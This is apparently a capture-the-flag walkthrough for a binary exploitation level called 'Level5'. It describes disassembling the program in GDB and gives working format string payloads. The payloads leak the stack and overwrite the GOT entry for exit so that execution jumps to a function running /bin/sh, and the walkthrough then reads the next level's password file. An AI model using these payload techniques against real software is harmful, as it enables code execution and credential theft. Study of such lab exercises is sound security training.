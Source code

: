 # Level5 Walkthrough

## Analyzing the Program with GDB

1. **Disassemble the program functions**:
   Using the command `disas`, we found that the program uses three functions :
   - o : allocates 24bytes on the stack, then calls the function system that executes the function stored at 0x80485f0 (/bin/sh) then exits
   - n : allocates 516bytes on the stack, reads a maximum of 512bytes on stdin then uses printf to print the string red using fgets and exits
   - main : executes n()

## Running the program

1. **Execute the Program with the Correct Input**:  
   We ran the program with the following command:  
   ```bash
   ./level5
   ```
    The program is waiting for the user to insert an input, prints it back and then exits properly.

2. **Trying to overflow the RET value**
    The idea is to create an overflow on n() and to redirect its return adress to 0x080484a4 which is the on of o()

    As n() does not return but calls exit() instead, we have to find exit()'s address, which is : 0x8049838

    When n() will be called in the main(), o() will takeover and will execute the command /bin/sh which will allow us to read the password for the next level

    We will first use the Format String Attack to find where is the address of `exit` :
    python -c "print '\x38\x98\x04\x08' + '%x '*4" | ./level5
    We find : 
    8200 b7fd1ac0 b7ff37d0 8049838

    Then we use the same exploit to modify the adress of `exit` by the address of o()g, 134513824 is specific here as it represents the number of characters needed to make the written value equal to the address of o() :
    ```python -c "print '\x38\x98\x04\x08' + '%134513824x%4\$n'" > /tmp/exploit```
    ```cat /tmp/exploit - | ./level5```
    Once you're in the program, just check level6/.pass by running this command :
    ```cat /home/user/level6/.pass``` 

## Moving to level6

1. **Swith User to level6**:
    Run ```su level6```

2. **Authenticate with the Password**:
    We used the password we found.